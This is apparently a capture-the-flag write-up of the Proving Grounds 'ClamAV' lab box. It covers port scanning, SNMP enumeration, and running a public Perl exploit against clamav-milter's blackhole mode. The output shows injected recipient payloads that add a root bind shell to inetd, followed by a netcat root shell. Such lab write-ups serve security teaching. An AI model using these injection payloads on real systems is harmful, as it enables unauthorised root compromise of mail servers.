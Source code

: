 ```yaml
---
layout: post
title: Proving Grounds - ClamAV
date: 2020-10-27 12:16:22 +0100
description: ClamAV is an easy Linux box featuring an outdated installation of the Clam AntiVirus suite. When the Sendmail mail filter is executed with the blackhole mode enabled it is possible to execute commands remotely due to an insecure popen call.
img: os.jpeg
fig-caption: ClamAV
categories: ProvingGrounds
tags: [Easy, Linux, Practice, CVE]
---
```

## Overview
ClamAV is an easy Linux box featuring an outdated installation of the Clam AntiVirus suite. When the Sendmail mail filter is executed with the blackhole mode enabled it is possible to execute commands remotely due to an insecure popen call.

## Enumeration
The initial scan reveals a fair number of open ports
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ sudo nmap -p- -T4 192.168.200.42
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 10:48 BST
Nmap scan report for 192.168.200.42
Host is up (0.093s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```
There are a few distractions on this box, first there is a webserver that leaves a message in binary translating as "The quick brown 🦊 jumps over 13 lazy 🐶.". Further fuzzing on the webserver did not reveal anything of interest. The samba server appears to be running an outdated version of samba, though this did not appear to match any vulnerable versions. Finally SSH appeared to also be running on an unusual port, though this did not appear to be vulnerable either. However the first breakthrough came when enumerating the SNMP port.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ snmp-check 192.168.200.42
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 192.168.200.42:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 192.168.200.42
  Hostname                      : 0xbabe.local
  Description                   : Linux 0xbabe.local 2.6.8-4-386 #1 Wed Feb 20 06:15:54 UTC 2008 i686
  Contact                       : Root <root@localhost> (configure /etc/snmp/snmpd.local.conf)
  Location                      : Unknown (configure /etc/snmp/snmpd.local.conf)
  Uptime snmp                   : 00:51:02.25
  Uptime system                 : 00:50:28.76
  System date                   : 2021-7-2 10:38:08.0

....

  3780                  runnable              clamd                 /usr/local/sbin/clamd                      
  3782                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
  3795                  runnable              nmbd                  /usr/sbin/nmbd        -D
```
As shown we can see ClamAV running with blackhole enabled, this is interesting as we know the name of the box is ClamAV. Also when we query searchsploit for the sendmail server that is running on port 25 we see a reference to clamav-milter with blackhole mode.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ searchsploit sendmail                                                                                                                                1 ⨯
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Execution (Metasploit)                                               | multiple/remote/9913.rb
Sendmail 8.12.8 (BSD) - 'Prescan()' Remote Command Execution                                                               | linux/remote/24.c
....                                                                                                                       | ....
Sendmail 8.9.x/8.10.x/8.11.x/8.12.x - File Locking Denial of Service (1)                                                   | linux/dos/21476.c
Sendmail 8.9.x/8.10.x/8.11.x/8.12.x - File Locking Denial of Service (2)                                                   | linux/dos/21477.c
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution                                                            | multiple/remote/4761.pl
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
## Foothold
We could use metasploit for this attack, but if we attempt first without it and choose the perl script. I had to remove the comments in the script and add the hashbang `#!/usr/bin/perl` then I could execute it with no other changes.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ ./4761.pl 192.168.200.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.200.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Fri, 2 Jul 2021 10:33:15 -0400; (No UCE/UBE) logging access from: [192.168.49.200](FAIL)-[192.168.49.200]
250-localhost.localdomain Hello [192.168.49.200], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 162EXFhs004343 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```
From the output it looks like it bound a listener to port `31337`, so when attempting to connect to it using netcat it resulted in a shell.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/ClamAV]
└─$ nc -nv 192.168.200.42 31337
(UNKNOWN) [192.168.200.42] 31337 (?) open
whoami
root
```

## Privilege Escalation

Privilege escalation is not required as we got a root shell directly from the foothold